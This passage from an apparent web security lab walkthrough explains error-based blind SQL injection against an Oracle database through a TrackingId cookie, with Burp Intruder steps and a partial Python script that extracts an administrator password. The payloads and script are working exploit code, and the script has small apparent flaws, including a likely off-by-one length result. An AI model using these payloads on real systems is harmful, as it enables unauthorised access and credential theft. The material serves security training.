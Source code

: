 16.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
17.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18.  Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
19.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
	- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
20. Launch the modified attack, review the results, and note the character at the second offset.
21.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
22.  In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

```python
#!/usr/bin/env python3
# Blind SQL injection with conditional responses (Oracle)
import requests
import string
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_length(url, cookie, session):
    for i in range(1,100):
        # '||(SELECT CASE WHEN LENGTH(password)=10 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        payload = f"'||(SELECT CASE WHEN LENGTH(password)={i} THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
        c = {'TrackingId':f'{cookie}{payload}', 'session':f'{session}'}
        req = requests.get(url, cookies=c, verify=False, proxies=p)
        if "Internal Server Error" in req.text:
            return i+1
        i = i+1
    return False

def get_password(url, cookie, session, number):
    admin_passwd = list()
    for i in range(1,number+1):
        for character in string.printable:
            # '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
            payload = f"'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{character}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            c = {'TrackingId':f'{cookie}{payload}', 'session':f'{session}'}
            req = requests.get(url, cookies=c, verify=False, proxies=p)
            if "Internal Server Error" in req.text:
                admin_passwd.append(character)
                break
            x = ''.join(admin_passwd) + character
            sys.stdout.write('\r' + x)
            sys.stdout.flush()
```